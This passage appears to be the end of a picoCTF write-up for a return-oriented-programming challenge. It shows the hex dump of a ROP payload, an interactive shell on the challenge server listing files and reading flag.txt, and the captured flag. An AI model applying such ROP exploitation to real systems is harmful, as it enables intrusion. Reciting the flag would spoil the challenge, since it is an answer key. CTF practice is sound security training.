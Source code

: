 ```console
    00000120  e8 a0 6b 00  00 00 00 00  26 cc 44 00  00 00 00 00  │··k·│····│&·D·│····│
    00000130  e8 a0 6b 00  00 00 00 00  f4 63 41 00  00 00 00 00  │··k·│····│·cA·│····│
    00000140  3b 00 00 00  00 00 00 00  35 9e 44 00  00 00 00 00  │;···│····│5·D·│····│
    00000150
[*] Switching to interactive mode

$ ls
flag.txt
vuln
vuln.c
xinet_startup.sh
$ cat flag.txt
picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_b30e66e722f3f0d0}
$ exit
$
[*] Got EOF while reading in interactive
$
[*] Closed connection to jupiter.challenges.picoctf.org port 28951
[*] Got EOF while sending in interactive
```

The flag: `picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_b30e66e722f3f0d0}`